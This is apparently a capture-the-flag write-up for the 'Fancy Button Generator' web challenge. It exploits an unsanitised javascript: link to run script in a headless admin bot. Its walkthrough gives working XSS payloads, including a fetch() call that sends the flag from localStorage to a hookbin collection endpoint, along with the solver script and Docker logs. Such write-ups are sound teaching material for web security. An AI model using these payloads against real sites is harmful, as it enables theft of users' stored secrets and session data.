




# Fancy Button Generator

- Category: Web
- Points: 100
- Author: Quintec

```
Check out this cool new fancy button generator! The buttons even glow!

https://fbg.rars.win/

Make sure to test your payloads using the full environment provided.
```


## Scouting

That note at the bottom is really important... one thing I learned this CTF. **Always, test with a provided docker!**


We are given two files a `pow` (proof of work) solver:

```python
import requests

import hashlib
import uuid
import binascii
import os
import sys

def generate():
    return uuid.uuid4().hex[:4], uuid.uuid4().hex[:4]

def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0"*difficulty)

def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test


s = requests.Session()
host = "https://fbg.rars.win/"

data = s.get(host + "pow").json()
print("Solving POW")
solution = solve(data['pref'], data['suff'], 5)
print(f"Solved: {solution}")
s.post(host + "pow", json={"answer": solution})

name = "" # change this
link = "" # change this
r = s.get(host + f"admin?title={name}&link={link}")
print(r.text)
```

What this does is solve the proof of work. `What is a proof of work?` It is something used in cryptocurrency, to prove that you actually "mined" a coin. Here we have to find a hash using the given `prefix` and `suffix` to find a `sha256` hash that ends with the number  of zeroes equal to `difficulty`.


After we send this to the `/pow` end point we can start creating buttons and sending them to the admin bot. First we'll check out the `server.py` script (I won't paste the whole thing):

```python
@app.route('/button')
def button():
    title = request.args.get('title')
    link = request.args.get('link')
    return render_template('button.html', title=title, link=link)
```

 This endpoint creates our button, as we can see no input sanitising is done. So the link or title could be basically anything! We can also see, that there are no `pow` checks in the function, meaning it can be created whenever. 

```python
@app.route('/admin')
def admin():
    if (not session.get("verified")) or (not session.get("end")):
        return redirect("/pow")
    if session.get("end") < time.time():
        del session['pref']
        del session['suff']
        del session['end']
        del session['verified']
        return redirect("/pow")

    title = request.args.get('title')
    link = request.args.get('link')
    host = random.choice(["admin", "admin2", "admin3"])
    r = requests.post(f"http://{host}/xss/add", json={"title": title, "link": link}, headers={"Authorization": os.getenv("XSSBOT_SECRET")})
    return f'Nice button! The admin will take a look. Current queue position: {r.json()["position"]}'
```

Here is the admin site. We can only send the admin buttons after being verified through the `pow`.  The admin bot receives the `title` and `link` of our button, with zero checking. After that a request is sent to one of the admin bots. Time to check out what the admin bot does:

```javascript
const visit = (req) => {
    let page, browser;
    return new Promise(async (resolve, reject) => {
        try {
            browser = await puppeteer.launch({
                headless: true,
                args: [
                    '--no-sandbox',
                    '--disable-setuid-sandbox',
                    '--disable-dev-shm-usage'
                ],
                dumpio: true,
                executablePath: process.env.PUPPETEER_EXECUTABLE_PATH
            });
            page = await browser.newPage();

            /* load flag */
            await page.goto(process.env.SITE, {
                waitUntil: "networkidle2"
            });
            await page.evaluate(flag => {
                localStorage.flag = flag;
            }, process.env.FLAG);

            let url = process.env.SITE + "button?title=" + req.title + "&link=" + req.link;
            console.log("Going to ", url);
            await page.goto(url, {
                waitUntil: "networkidle2"
            });
            await page.click("#btn");
            await page.waitForTimeout(TIMEOUT);
            await page.close();
            page = null;
        } catch (err) {
            console.log(err);
        } finally {
            if (page) await page.close();
            if (browser) await browser.close();
            resolve();
        }
    });
};
```

The function works asynchronously and uses the `puppeteer` package, to automate a headless browser. We can see, that after loading a new page the flag is loaded into `localStorage`:

```javascript
			await page.evaluate(flag => {
                localStorage.flag = flag;
            }, process.env.FLAG);
```

After that the bot navigates to our provided button/url:

```javascript
            let url = process.env.SITE + "button?title=" + req.title + "&link=" + req.link;
            console.log("Going to ", url);
            await page.goto(url, {
                waitUntil: "networkidle2"
            });
```

The button is then clicked, the bot waits a bit and then exits. Awesome!


## Finding a solution

At first I tried to escape the `href` in the tag:

```url
https://fbg.rars.win/button?title=...&link=%22%20onerror=alert(1)%3E
```

But if you do not put in any URL, it will append it to the `fbg.rars.win/` URL. So that's a no go. How about using the `javascript:` tag?

```
https://fbg.rars.win/button?title=...&link=javascript:alert(1)
```





Great, this is a proof of concept! But now for exfiltration, if we just alert the admin bot, that is absolutely useless. We need a publicly accessible endpoint. And this is where [hookbin](https://hookbin.com/) comes in. Simply click on `CREATE NEW ENDPOINT` and then use the given URL.

### Finding a working payload

This is where it really comes in handy to work with a local instance of fbg. One payload we could use is:

```javascript
new Image().src="<your hookbin endpoint>?c="+window.localStorage.getItem('flag')
```

Which we can input into the provided script:

```python
import requests

import hashlib
import uuid
import binascii
import os
import sys

def generate():
    return uuid.uuid4().hex[:4], uuid.uuid4().hex[:4]

def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0"*difficulty)

def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test


s = requests.Session()
host = "https://fbg.rars.win/"

data = s.get(host + "pow").json()
print("Solving POW")
solution = solve(data['pref'], data['suff'], 5)
print(f"Solved: {solution}")
s.post(host + "pow", json={"answer": solution})

name = "..." # change this
link = """javascript:new Image().src="<your hookbin endpoint>?c="+window.localStorage.getItem('flag')""" # change this
r = s.get(host + f"admin?title={name}&link={link}")
print(r.text)
```

But this won't work... Time to try it locally. 

### docker

After running `docker-compose build` we can use:

```bash
docker-compose up
Starting fancy_button_generator_admin2_1 ... done
Starting fancy_button_generator_chall_1  ... done
Starting fancy_button_generator_admin3_1 ... done
Starting fancy_button_generator_admin_1  ... done
Attaching to fancy_button_generator_chall_1, fancy_button_generator_admin2_1, fancy_button_generator_admin_1, fancy_button_generator_admin3_1
admin2_1  | xssbot listening on port 80
chall_1   |  * Serving Flask app 'server' (lazy loading)
chall_1   |  * Environment: production
chall_1   |    WARNING: This is a development server. Do not use it in a production deployment.
chall_1   |    Use a production WSGI server instead.
chall_1   |  * Debug mode: off
chall_1   |  * Running on all addresses.
chall_1   |    WARNING: This is a development server. Do not use it in a production deployment.
chall_1   |  * Running on http://172.18.0.5:5000/ (Press CTRL+C to quit)
admin3_1  | xssbot listening on port 80
admin_1   | xssbot listening on port 80
```

Then I started all the Time to try our payloads, and look for errors! 

*Note: Be sure to change the `host` variable in the script*

After executing the payload, and checking hookbin:



Well... that didn't work. Why?

```bash
admin3_1  | vistiting: {
admin3_1  |   title: '...',
admin3_1  |   link: "javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c='+window.localStorage.getItem('flag')"
admin3_1  | } []
admin3_1  | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin3_1  | [0809/202810.380784:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin3_1  | 
admin3_1  | DevTools listening on ws://127.0.0.1:44595/devtools/browser/5142a2c8-c6c0-4c0c-9ea5-c78c0946cbcd
admin3_1  | [0809/202810.394944:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin3_1  | [0809/202810.420350:ERROR:command_buffer_proxy_impl.cc(126)] ContextResult::kTransientFailure: Failed to send GpuControl.CreateCommandBuffer.
admin3_1  | Going to  https://fbg.rars.win/button?title=...&link=javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c='+window.localStorage.getItem('flag')
admin3_1  | [0809/202813.309781:INFO:CONSOLE(1)] "Uncaught SyntaxError: Unexpected identifier", source: https://fbg.rars.win/button?title=...&link=javascript:new%20Image().src=%27https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c=%27+window.localStorage.getItem(%27flag%27) (1)
```

Right, so there seems to be a syntax error? What if we send a simple request, without any extra data? 

```python
link = """javascript:new Image().src="<your hookbin endpoint>"""" # change this
```

Time to check:

```bash
admin3_1  | vistiting: {
admin3_1  |   title: '...',
admin3_1  |   link: "javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03'"
admin3_1  | } []
admin3_1  | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin3_1  | [0809/202948.026389:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin3_1  | 
admin3_1  | DevTools listening on ws://127.0.0.1:36589/devtools/browser/61c24fcb-bc1e-47c3-ac37-6fb90456910d
admin3_1  | [0809/202948.043770:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin3_1  | [0809/202948.073610:ERROR:command_buffer_proxy_impl.cc(126)] ContextResult::kTransientFailure: Failed to send GpuControl.CreateCommandBuffer.
admin3_1  | Going to  https://fbg.rars.win/button?title=...&link=javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03'

```

No errors and checking hookbin, it went through. So we can't really use a `+` probably? As that causes a syntax error. Well... in comes `fetch`. 

## Fetch

We try:

````javascript
javascript:fetch('<hookbin endpoint>')
````

As a simple test and it goes through! Now we can try sending some data! With fetch we can send headers as a dictionary, like so:

```javascript
fetch('<endpoint>', { headers:{ 'Content-Type' : 'test' } })
```

Change the link, and go ahead:

```bash
admin_1   | vistiting: {
admin_1   |   title: '...',
admin_1   |   link: "javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':'test'}})"
admin_1   | } []
admin_1   | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin_1   | 
admin_1   | DevTools listening on ws://127.0.0.1:34819/devtools/browser/a341f2bb-7789-4bad-8b2a-dbd91ab8d6eb
admin_1   | [0809/203918.354358:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin_1   | [0809/203918.363929:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
admin_1   | Going to  https://fbg.rars.win/button?title=...&link=javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':'test'}})
```


And hookbin:





Awesome! Time to get the flag:

## Flag

The payload to the actual challenge site:

```python
link = "javascript:fetch('https://hookb.in/ggg2p92p2XiG7Voo7z7P',{headers:{'Content-Type':window.localStorage.getItem('flag')}})"
```

Hookbin:





`rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`
